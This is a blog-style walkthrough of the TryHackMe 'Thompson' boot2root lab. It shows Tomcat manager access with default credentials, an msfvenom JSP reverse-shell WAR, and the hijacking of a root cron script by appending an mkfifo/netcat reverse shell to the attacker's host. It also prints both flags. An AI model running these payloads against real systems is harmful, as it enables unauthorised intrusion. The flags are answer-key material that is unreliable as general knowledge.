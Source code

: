 ```yaml
---
layout: post
title:  "THM: Thompson"
date:   2021-01-03 20:00:00 +1100
category: hacking
---
```


## Introduction
*boot2root machine for FIT and bsides guatemala CTF*

This is [Thompson](https://tryhackme.com/room/bsidesgtthompson) from THM. It's the last one of the bsides guatemala boxes. This one took me 13 minutes. I'm on a roll.

## Ports
SSH and an HTTP proxy on port 8080. We've got a picture of Tomcat, so it's probably that, yes?

## 8080
So, let's try some default credentials for the *manager* app:

>tomcat:tomcat - no  
>tomcat:s3cret - yes  

That was easy. Okay so now we need a **war** file:

{% highlight shell %}
root@kali:/opt/tryhackme/bsidesthompson# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.10.123 LPORT=1234 -f war > shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:/opt/tryhackme/bsidesthompson# nc -nvlp 1234
{% endhighlight %}

We are on.

## Privesc
Let's look around:

{% highlight shell %}
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.167.40] 52118
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash");'
tomcat@ubuntu:/$ cd /home
cd /home
tomcat@ubuntu:/home$ ls -lash
ls -lash
total 12K
4.0K drwxr-xr-x  3 root root 4.0K Aug 14  2019 .
4.0K drwxr-xr-x 22 root root 4.0K Aug 14  2019 ..
4.0K drwxr-xr-x  4 jack jack 4.0K Aug 23  2019 jack
tomcat@ubuntu:/home$ cd jack
cd ls jack
tomcat@ubuntu:/home/jack$ -lash
ls -lash
total 48K
4.0K drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 .
4.0K drwxr-xr-x 3 root root 4.0K Aug 14  2019 ..
4.0K -rw------- 1 root root 1.5K Aug 14  2019 .bash_history
4.0K -rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
4.0K -rw-r--r-- 1 jack jack 3.7K Aug 14  2019 .bashrc
4.0K drwx------ 2 jack jack 4.0K Aug 14  2019 .cache
4.0K -rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
4.0K drwxrwxr-x 2 jack jack 4.0K Aug 14  2019 .nano
4.0K -rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
   0 -rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
4.0K -rw-r--r-- 1 root root   39 Jan  3 00:59 test.txt
4.0K -rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
4.0K -rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39400c90bc683a41a8935e4719f181bf
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ file id.sh
file id.sh
id.sh: Bourne-Again shell script, ASCII text executable
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ ./id.sh
./id.sh
./id.sh: line 2: test.txt: Permission denied
{% endhighlight %}

Okay, so we have one user with a shell script that we can't run but which appears to have been run by root. Hmmm. Let's check the crontab:

{% highlight shell %}
tomcat@ubuntu:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the 'crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
tomcat@ubuntu:/$ cd /home/jack
{% endhighlight %}

So there it is; a cron job running as root and executing our shell script. We'll append some code for a reverse shell and start a new listener:

{% highlight shell %}
tomcat@ubuntu:/home/jack$ printf 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1235 >/tmp/f\n' >> id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1235 >/tmp/f
{% endhighlight %}

Great, let's check our listener:

{% highlight shell %}
root@kali:/opt/tryhackme/bsidesthompson# nc -nvlp 1235
listening on [any] 1235 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.167.40] 35420
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls -lash 
total 24K
4.0K drwx------  3 root root 4.0K Aug 14  2019 .
4.0K drwxr-xr-x 22 root root 4.0K Aug 14  2019 ..
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwxr-xr-x  2 root root 4.0K Aug 14  2019 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug 14  2019 root.txt
cat#  root.txt
d89d5391984c0450a95497153ae7ca3a
{% endhighlight %}

And another one done.

